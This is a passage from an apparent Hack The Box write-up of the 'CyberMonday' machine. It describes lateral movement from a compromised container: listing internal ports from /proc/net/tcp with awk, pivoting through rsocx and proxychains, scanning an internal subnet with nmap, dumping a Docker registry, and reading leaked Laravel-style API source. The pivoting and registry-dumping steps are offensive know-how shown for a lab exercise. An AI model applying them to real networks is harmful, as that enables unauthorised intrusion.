 ### Lateral movimentation:
Well inside of the machine, we can go further scanning some internal services:

```
grep -v "rem_address" /proc/net/tcp  | awk  '{x=strtonum("0x"substr($3,index($3,":")-2,2)); for (i=5; i>0; i-=2) x = x"."strtonum("0x"substr($3,i,2))}{print x":"strtonum("0x"substr($3,index($3,":")+1,4))}'
```
> the machine itself looks like just a container, or a service isolated for some deploy template for isolated applications. Considering this, we can pivot for this machine, and start to recon for other services.
{: .prompt-info }

[!Desktop View](/images/cybermonday/redis4.png)
After that, we can simply link the rsocx to proxychains:

```
proxychains4 nmap -sV -A 172.17.0.0/24 --max-rate=1000 -oN nmap.log
...
...
...
172.18.0.4:5000
...
...
```

this part especially it's most long in all machine, since we are "stopped" for the HTB internal connection, which for my region, it's pretty slow.
This machine was launched few weeks after "RegistryTwo" so most people still sharp for docker registry challenges.

<https://github.com/Syzik/DockerRegistryGrabber>
```
proxychains4 dockergrabber.py --dump-all
```
Skipping for the moment we downloaded and open all blob files dumped, we can find the API source code, which have more interesting laravel files.

```php
<?php

namespace app\controllers;
use app\helpers\Api;
use app\models\Webhook;

class LogsController extends Api
{
    public function index($request)
    {
        $this->apiKeyAuth();

        $webhook = new Webhook;
        $webhook_find = $webhook->find("uuid", $request->uuid);

        if(!$webhook_find)
        {
            return $this->response(["status" => "error", "message" => "Webhook not found"], 404);
        }

        if($webhook_find->action != "createLogFile")
        {
            return $this->response(["status" => "error", "message" => "This webhook was not created to manage logs"], 400);
        }

        $actions = ["list", "read"];

```